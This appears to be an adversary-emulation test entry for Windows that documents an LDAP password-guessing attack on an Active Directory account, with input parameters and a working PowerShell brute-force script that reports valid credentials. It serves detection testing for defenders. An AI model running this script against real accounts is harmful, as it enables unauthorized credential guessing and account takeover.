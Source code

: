 **Supported Platforms:** Windows


**auto_generated_guid:** c2969434-672b-4ec8-8df0-bbb91f40e250





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| user | Account to bruteforce | string | $ENV:USERNAME|
| passwords_path | List of passwords we will attempt to brute force with | path | PathToAtomicsFolder&#92;T1110.001&#92;src&#92;passwords.txt|
| domain | Active Directory domain FQDN | string | $env:UserDnsDomain|
| auth | authentication method to choose between "NTLM" and "Kerberos" | string | NTLM|


#### Attack Commands: Run with `powershell`! 


```powershell
if ("#{auth}".ToLower() -NotIn @("ntlm","kerberos")) {
  Write-Host "Only 'NTLM' and 'Kerberos' auth methods are supported"
  exit 1
}

[System.Reflection.Assembly]::LoadWithPartialName("System.DirectoryServices.Protocols") | Out-Null
$di = new-object System.DirectoryServices.Protocols.LdapDirectoryIdentifier("#{domain}",389)

$passwordList = Get-Content -Path "#{passwords_path}"
foreach ($password in $passwordList){
  $credz = new-object System.Net.NetworkCredential("#{user}", $password, "#{domain}")
  $conn = new-object System.DirectoryServices.Protocols.LdapConnection($di, $credz, [System.DirectoryServices.Protocols.AuthType]::#{auth})
  try {
    Write-Host " [-] Attempting ${password} on account #{user}."
    $conn.bind()
    # if credentials aren't correct, it will break just above and goes into catch block, so if we're here we can display success
    Write-Host " [!] #{user}:${password} are valid credentials!"
  } catch {
    Write-Host $_.Exception.Message
  }
}
Write-Host "End of bruteforce"
```






<br/>
<br/>
